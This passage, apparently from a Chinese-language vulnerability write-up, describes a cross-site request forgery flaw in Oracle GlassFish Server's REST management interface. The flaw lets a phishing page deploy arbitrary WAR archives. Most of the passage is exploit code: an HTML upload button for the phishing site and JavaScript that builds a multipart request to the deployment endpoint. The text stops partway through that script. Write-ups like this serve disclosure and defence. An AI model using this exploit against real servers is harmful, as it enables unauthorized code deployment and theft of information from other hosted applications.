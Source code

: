 ## Oracle GlassFish Server - REST Cross-Site Request Forgery

该漏洞是由 Security-Assessment.com 发现的，Oracle GlassFish 服务器的 REST 接口可以被 CSRF 请求攻击，譬如其可以允许普通用户任意上传 WAR 包，并且可以控制在服务端运行从而导致窃取其他运行应用的信息。关于具体的攻击复盘可以参考[这里](http://blog.kotowicz.net/2011/04/how-to-upload-arbitrary-file-contents.html)。其攻击手段是首先在钓鱼站点上设置如下按钮 :

```
<button id="upload" onclick="start()" type="button">Upload WAR Archive</button>
```

然后添加如下脚本 :

```js
var logUrl = 'http://glassfishserver/management/domain/applications/application';

function fileUpload(fileData, fileName) {
    var fileSize = fileData.length,
      boundary = "---------------------------270883142628617",
      uri = logUrl,
      xhr = new XMLHttpRequest();

    var additionalFields = {
          asyncreplication: "true",
          availabilityenabled: "false",
          contextroot: "",
        createtables: "true",
        dbvendorname: "",
        deploymentplan: "",
        description: "",
        dropandcreatetables: "true",
        enabled: "true",
        force: "false",
        generatermistubs: "false",
        isredeploy: "false",
        keepfailedstubs: "false",
        keepreposdir: "false",
        keepstate: "true",
        lbenabled: "true",
        libraries: "",
        logReportedErrors: "true",
        name: "",
        precompilejsp: "false",
        properties: "",
        property: "",
        retrieve: "",
        target: "",
        type: "",
        uniquetablenames: "true",
        verify: "false",
        virtualservers: "",
        __remove_empty_entries__: "true"

    }

    if (typeof XMLHttpRequest.prototype.sendAsBinary == "function") { // Firefox 3 & 4
    var tmp = '';
    for (var i = 0; i < fileData.length; i++) tmp +=
String.fromCharCode(fileData.charCodeAt(i) & 0xff);
    fileData = tmp;
  }
  else { // Chrome 9
    // http://javascript0.org/wiki/Portable_sendAsBinary
    XMLHttpRequest.prototype.sendAsBinary = function(text){
      var data = new ArrayBuffer(text.length);
```